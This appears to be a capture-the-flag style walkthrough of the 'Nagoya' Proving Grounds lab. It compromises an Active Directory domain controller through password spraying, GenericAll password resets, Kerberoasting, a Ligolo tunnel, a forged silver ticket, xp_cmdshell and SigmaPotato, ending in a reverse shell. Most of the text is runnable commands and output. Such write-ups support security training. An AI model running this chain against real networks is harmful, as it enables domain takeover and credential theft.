


# Info
```bash
Info:
IP: 192.168.237.21
OS:
Domain: nagoya-industries.com
```

# Links:
```bash
https://medium.com/@mu.aktepe18/nagoya-proving-ground-walk-through-afb50d51bb0f

https://aditya-3.gitbook.io/oscp/readme/walkthroughs/pg-practice/nagoya
```
# Standard enum:
```bash
nmap -p- -sCV nagoya.pgp --open
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-12 20:19 EDT
Nmap scan report for nagoya.pgp (192.168.237.21)
Host is up (0.047s latency).
Not shown: 65512 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
80/tcp    open  http              Microsoft IIS httpd 10.0
|_http-title: Nagoya Industries - Nagoya
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2025-10-13 00:21:45Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: nagoya-industries.com0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: nagoya-industries.com0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
3389/tcp  open  ms-wbt-server     Microsoft Terminal Services
|_ssl-date: 2025-10-13T00:23:20+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=nagoya.nagoya-industries.com
| Not valid before: 2025-10-12T00:18:05
|_Not valid after:  2026-04-13T00:18:05
| rdp-ntlm-info: 
|   Target_Name: NAGOYA-IND
|   NetBIOS_Domain_Name: NAGOYA-IND
|   NetBIOS_Computer_Name: NAGOYA
|   DNS_Domain_Name: nagoya-industries.com
|   DNS_Computer_Name: nagoya.nagoya-industries.com
|   DNS_Tree_Name: nagoya-industries.com
|   Product_Version: 10.0.17763
|_  System_Time: 2025-10-13T00:22:40+00:00
5985/tcp  open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf            .NET Message Framing
49666/tcp open  msrpc             Microsoft Windows RPC
49668/tcp open  msrpc             Microsoft Windows RPC
49676/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc             Microsoft Windows RPC
49681/tcp open  msrpc             Microsoft Windows RPC
49691/tcp open  msrpc             Microsoft Windows RPC
49698/tcp open  msrpc             Microsoft Windows RPC
49717/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: NAGOYA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-10-13T00:22:41
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 210.45 seconds
```


# Worth checking:
```bash
80 - http
139, 445 - smb
389, 636, 3268, 3269 - LDAP
3389 - RDP
5985 - WinRM
9389 - ?
```
# 80
in section team, we have nice finding:


We can sue it to create potential usernames
```bash
Matthew Harrison
Emma Miah
Rebecca Bell
Scott Gardner
Terry Edwards
Holly Matthews
Anne Jenkins
Brett Naylor
Melissa Mitchell
Craig Carr
Fiona Clark
Patrick Martin
Kate Watson
Kirsty Norris
Andrea Hayes
Abigail Hughes
Melanie Watson
Frances Ward
Sylvia King
Wayne Hartley
Iain White
Joanna Wood
Bethan Webster
Elaine Brady
Christopher Lewis
Megan Johnson
Damien Chapman
Joanne Lewis
```
Based on this info, we can start preparing list of potential usernames. To do it, download:
```bash
https://github.com/urbanadventurer/username-anarchy
```

and use thos command (for more, please read github page):
```bash
/username-anarchy -i ~/PGP/Nagoya/usernames >> user.names 
```

Our result:


Lets check with kerbrute, which usernames are valid:
```bash
./kerbrute_linux_amd64 userenum --dc nagoya.pgp -d nagoya-industries.com user.names 
```



Now clean this up and we have list:
```bash
matthew.harrison
emma.miah
rebecca.bell
scott.gardner
terry.edwards
holly.matthews
anne.jenkins
brett.naylor
melissa.mitchell
craig.carr
fiona.clark
patrick.martin
kate.watson
kirsty.norris
andrea.hayes
abigail.hughes
melanie.watson
frances.ward
sylvia.king
wayne.hartley
iain.white
joanna.wood
bethan.webster
elaine.brady
christopher.lewis
megan.johnson
damien.chapman
joanne.lewis
```

lets try to find password for them:
```bash
crackmapexec smb nagoya.pgp -u usernames -p /usr/share/seclists/Passwords/corporate_passwords.txt 
```

And we have it!

```bash
fiona.clark:Summer2023
```

Let's check what she can do with bloodhound:
```bash
bloodhound-python -u "fiona.clark" -p 'Summer2023' -d nagoya-industries.com -c all --zip -ns 192.168.237.21
```


Fiona is member of employee group with GenericAll entitlments, as per https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/acl-persistence-abuse/index.html?highlight=GenericAll#genericall-rights-on-user:

"This privilege grants an attacker full control over a target user account. Once GenericAll rights are confirmed using the Get-ObjectAcl command, an attacker can:

Change the Target's Password: Using net user <username> <password> /domain, the attacker can reset the user's password.
From Linux, you can do the same over SAMR with Samba net rpc:
bash
# Reset target user's password over SAMR from Linux
net rpc password <samAccountName> '<NewPass>' -U <domain>/<user>%'<pass>' -S <dc_fqdn>" and some more...
So lets do it!

```bash
 net rpc password svc_helpdesk 'Password@' -U nagoya-industries.com/fiona.clark%'Summer2023' -S 192.168.121.21

or

rpcclient -U "fiona.clark%Summer2023" nagoya.pgp
rpcclient $> setuserinfo2 joanna.wood 23 Password@
```

Joanna is member of helpdesk, and has Genric all for all employees:


Last one, Christopher Lewis is member or 5 groups instead of 3 like rest of employees. One of this group is remote managment user which is great for us:


So now, lest do teh same and change password for chris.
```bash
 net rpc password christopher.lewis 'Password@' -U nagoya-industries.com/svc_helpdesk%'Password@' -S 192.168.121.21
 ```

 Now evilwinrm
 ```bash
 evil-winrm -i 192.168.237.21  -u christopher.lewis -p "Password@"
 ```

 And... shit. Here we go again.
 Lets check in Bloodhound what else we can do? Maybe kerberoasting and GetUserSpns?
 Oh sure we can:

 

 So lets try this:
 ```bash
 impacket-GetUserSPNs nagoya-industries.com/'fiona.clark':'Summer2023' -dc-ip 192.168.209.21 -debug -outputfile kerberoast.txt
```
And we have: 


Now, lets use hashcat or john

```bash
john  -w="/usr/share/wordlists/rockyou.txt" kerberoast    
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:05 DONE (2025-10-14 19:40) 0g/s 2538Kp/s 2538Kc/s 2538KC/s !!12Honey..*7¡Vamos!
Session completed. 
```

So we have password for svc_helpdesk:Password@ and svc_mssql:Service1

BUT! Port 1433 is not open! Maybe locally? recheck:

```bash
└─$ evil-winrm -i 192.168.209.21  -u christopher.lewis -p "Password@"  
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Christopher.Lewis\Documents> netstat -ano | Select-String "1433"

  TCP    0.0.0.0:1433           0.0.0.0:0              LISTENING       3612
  TCP    [::]:1433              [::]:0                 LISTENING       3612

```

Server is listening but we cnat hear it. Lets forward 1344 port to our machine:

Download Ligolo-ng proxy and agent. Upload agent to target machine. Start ligolo-proxy:

```bash
┌──(kali㉿kali)-[~/PGP/Nagoya]
└─$ ./proxy -selfcert

INFO[0000] Loading configuration file ligolo-ng.yaml    
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
INFO[0000] Listening on 0.0.0.0:11601                   
INFO[0000] Starting Ligolo-ng Web, API URL is set to: http://127.0.0.1:8080 
                                                     
WARN[0000] Ligolo-ng API is experimental, and should be running behind a reverse-proxy if publicly exposed.                                                          

  Made in France ♥            by @Nicocha30!
  Version: 0.8
```

and then agent:
```bash
*Evil-WinRM* PS C:\Users\Christopher.Lewis\Documents> .\agent.exe -ignore-cert -connect 192.168.45.182:11601

agent.exe : time="2025-10-14T17:04:35-07:00" level=warning msg="warning, certificate validation disabled"
    + CategoryInfo          : NotSpecified: (time="2025-10-1...ation disabled":String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
time="2025-10-14T17:04:35-07:00" level=info msg="Connection established" addr="192.168.45.212:11601"
```

Then in ligolo:
```bash
ligolo-ng » session
? Specify a session : 1 - NAGOYA-IND\Christopher.Lewis@nagoya - 192.168.209.21:49894 - 0050569e81d3
[Agent : NAGOYA-IND\Christopher.Lewis@nagoya] » ifcreate --name ligolo0
INFO[0022] Creating a new ligolo0 interface...          
INFO[0022] Interface created!                           
[Agent : NAGOYA-IND\Christopher.Lewis@nagoya] » ifconfig
┌───────────────────────────────────────────────┐
│ Interface 0                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet0                      │
│ Hardware MAC │ 00:50:56:9e:81:d3              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 192.168.209.21/24              │
└──────────────┴────────────────────────────────┘
┌──────────────────────────────────────────────┐
│ Interface 1                                  │
├──────────────┬───────────────────────────────┤
│ Name         │ Loopback Pseudo-Interface 1   │
│ Hardware MAC │                               │
│ MTU          │ -1                            │
│ Flags        │ up|loopback|multicast|running │
│ IPv6 Address │ ::1/128                       │
│ IPv4 Address │ 127.0.0.1/8                   │
└──────────────┴───────────────────────────────┘
[Agent : NAGOYA-IND\Christopher.Lewis@nagoya] » tunnel_start --tun ligolo0
INFO[0169] Starting tunnel to NAGOYA-IND\Christopher.Lewis@nagoya (0050569e81d3)

[Agent : NAGOYA-IND\Christopher.Lewis@nagoya] » route_add --name ligolo0 --route 240.0.0.1/32
INFO[0501] Route created. 
```



Time to test our tunneling!
Use nmap:
```bash
nmap -p 1433 -sCV 240.0.0.1 --open  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-14 20:27 EDT
Nmap scan report for 240.0.0.1
Host is up (0.0074s latency).

PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-info: 
|   240.0.0.1:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2025-10-15T00:27:58+00:00; 0s from scanner time.
| ms-sql-ntlm-info: 
|   240.0.0.1:1433: 
|     Target_Name: NAGOYA-IND
|     NetBIOS_Domain_Name: NAGOYA-IND
|     NetBIOS_Computer_Name: NAGOYA
|     DNS_Domain_Name: nagoya-industries.com
|     DNS_Computer_Name: nagoya.nagoya-industries.com
|     DNS_Tree_Name: nagoya-industries.com
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-08-02T02:59:55
|_Not valid after:  2054-08-02T02:59:55
```

Got it! So now lest connect to mssql:

```bash
impacket-mssqlclient svc_mssql:Service1@240.0.0.1 -windows-auth

(NAGOYA-IND\svc_mssql  guest@master)> SELECT name from master.dbo.sysdatabases

name     
------   
master   

tempdb   

model    

msdb

OR(nagoya\SQLEXPRESS): Line 105: User does not have permission to perform this action.
ERROR(nagoya\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement.
ERROR(nagoya\SQLEXPRESS): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
ERROR(nagoya\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement.
```

We can now perform silver ticket attack that help us to trick sql server so that we can log in as who we are we say because of we do not have to connect to kdc to authenticate to sql server. So we can impersonate administrator to log in sql server.

But first we need to learn domain sid and serviceprincipalname of sql server.

```bash
Import-Module ActiveDirectory

Get-ADDomain
```
DomainSID                          : S-1-5-21-1969309164-1513403977-1686805993


and

ServicePrincipalName : {MSSQL/nagoya.nagoya-industries.com}


For this action we need to covert svc_mssql password into ntlm hash with this command:

```bash
echo -n 'Service1' | iconv -t UTF-16LE | openssl md4
```

Now the ticket to impersonate admin:
```bash
impacket-ticketer -nthash e3a0168bc21cfb88b95c954a5b18f57c -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -spn MSSQL/nagoya.nagoya-industries.com -user-id 500 Administrator
```

export cache:
```
export KRB5CCNAME=~/PGP/Nagoya/Administrator.ccache
```

No we can login witghout password. Modify kerb5.conf

```bash
sudo apt install krb5-user

mousepad /etc/krb5.conf

[libdefaults]
        default_realm = NAGOYA-INDUSTRIES.COM

# The following krb5.conf variables are only for MIT Kerberos.
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        rdns = false


# The following libdefaults parameters are only for Heimdal Kerberos.
        fcc-mit-ticketflags = true

[realms]
        NAGOYA-INDUSTRIES.COM = {
        kdc=nagoya.nagoya-industries.com
        }

[domain_realm]
        .nagoya-industries.com = NAGOYA-INDUSTRIES.COM
```

nano /etc/hosts


now try:
impacket-mssqlclient -k nagoya.nagoya-industries.com  


Success!
try:

```bash
enable_xp_cmdshell

xp_cmdshell "whoami /priv"
```


SeImpersonatePrivilege !!! Thats good, now lets use Sigma potato to finalize this lab.

Firstly, download SigmaPotato:
```bash
https://github.com/tylerdotrar/SigmaPotato
```
Get latest .exe form releases.
Then upload it to our compromised Christopher, but use easily accessible/public folder like C:\Temp


Now go back to mssql and run:
```bash
xp_cmdshell "C:\Temp\SigmaPotato.exe whoami"
```


Nailed it!
Now lets create rev shell.

We start listener

```bash
nc -nlvp 1337
```

And use final command:
```bash
"C:\Temp\SigmaPotato.exe --revshell 192.168.45.182 1337"
```
Bum! We won ;)

